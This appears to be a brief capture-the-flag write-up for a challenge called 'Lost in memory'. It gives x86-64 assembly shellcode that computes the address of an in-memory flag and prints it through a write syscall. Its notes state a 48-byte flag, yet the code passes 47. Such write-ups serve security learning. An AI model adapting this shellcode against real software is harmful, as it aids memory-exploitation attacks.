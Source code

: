 # Lost in memory

Objective is to read the flag file.
Craft a shellcode that does a write of the flag.

Notes:
- RAX -> SYS_WRITE = 1
- RDI -> STDOUT (fd) = 1
- RSI -> address of flag
- RDX -> length of flag in bytes

- Length of stub -> 0x37
- Length of flag -> 48 (0x30)
- Length of first instructions -> 0x7 bytes.
-> 0x30 + 0x37 + 0x7 = 0x6e
These values were found in append_stub.

```asm
lea rax, [rip] ; load effective address.
sub rax, 0x6e
mov rdi, 1 ; FD (File Descriptor) for STDOUT
mov rsi, rax ; address of flag calculated above
mov rdx, 47 ; length of the flag in bytes to print
mov rax, 1 ; SYS_WRITE
syscall
```
